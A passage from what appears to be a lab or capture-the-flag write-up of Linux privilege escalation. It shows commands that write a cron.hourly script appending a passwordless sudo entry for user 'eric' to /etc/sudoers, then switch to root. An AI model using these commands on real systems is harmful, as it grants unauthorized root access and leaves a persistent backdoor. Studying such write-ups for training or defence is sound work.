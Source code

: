 3\. Used this to create a empty file at file path `/etc/cron.hourly/testing` with `chmod 777` permissions. We then added commands to this new file to add user `eric` to `/etc/sudoers`:  
``` {.python .numberLines}
touch testing
chmod 777 testing
echo -e '#!/bin/bash\necho "eric ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers' >/etc/cron.hourly/testing

```

![writeup.privesc.steps.3.1](./screenshot14.png)  

4\. We had to wait for an hour for the `cron` job to execute and after that running the `sudo -l` command confirmed that `sudoers` permissions are now enabled for user `eric`. We then changed to user `root`:  
``` {.python .numberLines}
sudo -l
sudo su

```
